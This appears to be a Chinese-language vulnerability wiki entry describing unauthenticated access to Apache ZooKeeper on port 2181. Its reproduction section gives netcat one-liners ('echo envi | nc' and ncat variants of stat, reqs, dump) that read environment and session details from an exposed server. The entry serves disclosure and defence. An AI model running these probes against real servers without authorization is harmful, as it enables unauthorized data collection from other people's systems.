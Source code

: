 ```yaml
---
Title: Apache ZooKeeper 未授权访问漏洞 CVE-2014-085
---
```


# Apache ZooKeeper 未授权访问漏洞 CVE-2014-085

## 漏洞描述

默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

<a-checkbox checked>Apache ZooKeeper</a-checkbox></br>

## 漏洞复现

Apache  ZooKeeper 默认开放`2181端口` ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```

![98517179-604b-45d3-8f08-88ac223c1dd7](/assets/PeiQi-Wiki/img/98517179-604b-45d3-8f08-88ac223c1dd7.png)

其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```
